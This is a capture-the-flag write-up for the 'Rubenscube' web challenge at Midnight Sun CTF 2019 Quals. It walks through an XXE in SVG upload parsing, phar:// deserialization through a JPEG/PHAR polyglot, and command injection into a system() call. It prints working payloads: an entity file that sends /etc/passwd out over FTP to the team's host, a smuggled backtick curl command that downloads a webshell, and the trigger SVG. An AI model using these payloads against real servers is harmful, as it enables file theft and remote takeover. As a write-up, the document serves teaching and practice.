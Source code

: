 ```yaml
---
layout: post
title:  "Midnight Sun CTF 2019 Quals - Rubenscube"
date:   2019-04-06 13:37
categories: [MidnightSunCTFQuals2019]
tags: [Web]
author: jbz
---
```


The challenge description was minimal, just telling us about an image sharing service:
```
Sharing is caring. For picture wizard use only.
Service: http://ruben-01.play.midnightsunctf.se:8080
```

### TL;DR ###

This challenge was about exploiting an `XXE` through an `SVG`, then invoke a `PHP Object Injection` through the `XXE` using `phar://` and finally get `RCE`.

### Recon ###

We run a dir scan on the target to see if any juicy file could be found.
```
.gitignore
robots.txt
index.php
upload.php
images/
```
By visiting the `robots.txt` file it was possible to find the path of the zip containing the source code.
```
User-agent: *
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
Disallow: source.zip
```
By visiting the `.gitignore` file it was possible to see that an un-accessible file `flag_dispenser` was present in the webroot.

It took 30 seconds to understand that there was a very easy to trigger `XXE` during `SVG` file parsing.

{% highlight php %}
<?php
session_start();

function calcImageSize($file, $mime_type) {
    if ($mime_type == "image/png"||$mime_type == "image/jpeg") {
        $stats = getimagesize($file);  // Doesn't work for svg...
        $width = $stats[0];
        $height = $stats[1];
    } else {
        $xmlfile = file_get_contents($file);
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $svg = simplexml_import_dom($dom);
        $attrs = $svg->attributes();
        $width = (int) $attrs->width;
        $height = (int) $attrs->height;
    }
    return [$width, $height];
}


class Image {

    function __construct($tmp_name)
    {
        $allowed_formats = [
            "image/png" => "png",
            "image/jpeg" => "jpg",
            "image/svg+xml" => "svg"
        ];
        $this->tmp_name = $tmp_name;
        $this->mime_type = mime_content_type($tmp_name);

        if (!array_key_exists($this->mime_type, $allowed_formats)) {
            // I'd rather 500 with pride than 200 without security
            die("Invalid Image Format!");
        }

        $size = calcImageSize($tmp_name, $this->mime_type);
        if ($size[0] * $size[1] > 1337 * 1337) {
            die("Image too big!");
        }

        $this->extension = "." . $allowed_formats[$this->mime_type];
        $this->file_name = sha1(random_bytes(20));
        $this->folder = $file_path = "images/" . session_id() . "/";
    }

    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}

new Image($_FILES['image']['tmp_name']);
header('Location: index.php');
{% endhighlight %}

### XXE ###

Using the following `SVG` file it was possible to confirm the `XXE`:
```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://jbz.team/">
%sp;
]>
<svg viewBox="0 0 400 400" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="60" y="15" style="fill:black">PoC for XXE file stealing via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="400" height="400" style="fill:green;opacity:0.3"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="10" y="20" width="380" height="370" style="fill:yellow;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara></flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

At that point we were like "OK, it's time for a first blood!!11!!1"!
We spawned an `FTP` and an `HTTP` services to retrieve data `OOB` and we weaponized the `SVG` file.

**SVG**
```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://jbz.team/evil.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 400 400" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="60" y="15" style="fill:black">PoC for XXE file stealing via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="400" height="400" style="fill:green;opacity:0.3"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="10" y="20" width="380" height="370" style="fill:yellow;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
**evil.xml**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://jbz.team/%data;'>">
```

A `php://filter` was used in order to exfiltrate data in base64, which prevents problems with new lines, encoding, etc.

We uploaded the malicious `SVG` and boom we received `/etc/passwd` file via `FTP`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
```

### FLAG ###

We canged the path from `/etc/passswd` in the `evil.xml` file to `/var/www/html/flag_dispenser` and ~~we received the flag~~.

### SADNESS ###

We spent hours trying to read various files to understand wheredaphrack the flag was, without success. We also asked the organizers if everything was working correctly and the answer was always "yes".

### THE IDEA ###

When we were pretty close to give up we remembered about the `phar://` handler which in `PHP` allows to perform a `PHP Object Injection`.

To exploit it we needed:
 - The ability to force the server to visit a phar:// URI, which was possible via the `XXE`
 - The ability to upload a malicious phar archive on the server, which was possible only if the `PHAR` archive was also a valid `JPG` file
 - A gadget for our deserialization exploit, which was present in the`system` function called in the `__destruct` of the `Image` class

### POLYGLOT PHAR ###

Using some Google-fu we found a `PHP` script, which, with very few changes, was used to generate a `PHAR` which was also a valid `JPG` file.

{% highlight php %}
<?php
class Image {}

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
$object = new Image;
$object->tmp_name = '/etc/passwd';
$object->folder = '/tmp';
$object->file_name = 'aaa`curl jbz.team/phpshell.txt > /var/www/html/images/<phpsessid>/a.php`bbb';
$object->extension = 'txt';
$phar->setMetadata($object);
$phar->stopBuffering();
{% endhighlight %}

The injected `Image` object was used to trigger the command injection in the `system` function:

{% highlight php %}
class Image {
    [...]
    
    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}
{% endhighlight %}


### RCE ###

We uploaded the generated polyglot `PHAR` to the server, and then triggered the deserialization via the following `SVG`:
```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % data SYSTEM "phar://images/<phpsessid>/<phar_file_name>.jpg">
%data;
]>
<svg viewBox="0 0 400 400" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="60" y="15" style="fill:black">PoC for XXE file stealing via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="400" height="400" style="fill:green;opacity:0.3"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="10" y="20" width="380" height="370" style="fill:yellow;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara></flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

And boom we visited the downloaded webshell which executed our commands.

Then it was just a matter of executing `/var/www/html/flag_dispenser`, which happened to be a binary file, executable by anyone, but readable only by `root`, to get the flag:

```Flag: midnight{R3lying_0n_PHP_4lw45_W0rKs}```
